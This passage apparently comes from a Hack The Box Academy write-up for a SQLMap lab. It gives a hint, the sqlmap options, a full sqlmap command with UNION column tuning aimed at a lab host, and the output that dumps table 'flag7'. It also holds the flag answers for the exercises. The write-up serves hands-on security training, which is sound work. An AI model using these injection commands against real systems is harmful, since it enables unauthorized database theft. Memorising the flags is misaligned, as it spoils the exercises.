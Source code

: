 **Answer**

```
HTB{v1nc3_mcm4h0n_15_4570n15h3d}
```

#### Question #06

**Question**

What's the contents of table `flag7`? (Case #7)

Hint: Try to count the number of columns in the page output, and specify them for sqlmap.

![Firefox - Case7 UNION SQLi with Adjustments](./assets/screenshots/sqlmap_essentials_firefox_case7_union_sqli_with_adjustments.png)

```javascript
--batch -T flag7 --dump --no-cast --union-cols=5
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case7.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case7.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -T flag7 --dump --no-cast --union-cols=5

[SNIP]

[09:09:29] [INFO] fetching current database
[09:09:29] [INFO] fetching columns for table 'flag7' in database 'testdb'
[09:09:29] [INFO] fetching entries for table 'flag7' in database 'testdb'
Database: testdb
Table: flag7
[1 entry]
+----+-----------------------+
| id | content               |
+----+-----------------------+
| 1  | HTB{un173_7h3_un173d} |
+----+-----------------------+

[SNIP]
```